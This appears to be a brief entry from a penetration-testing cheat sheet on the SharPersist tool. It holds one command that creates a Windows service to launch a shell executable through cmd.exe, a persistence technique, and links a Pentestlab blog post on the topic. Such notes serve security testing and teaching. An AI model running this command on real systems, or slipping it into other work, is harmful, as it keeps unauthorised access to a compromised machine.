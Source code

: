 # SharPersist

```
C:\> SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "<ServiceSVC>" -m add
```

---
## References

- [Pentestlab Blog:  Persistence New Service](https://pentestlab.blog/2019/10/07/persistence-new-service/)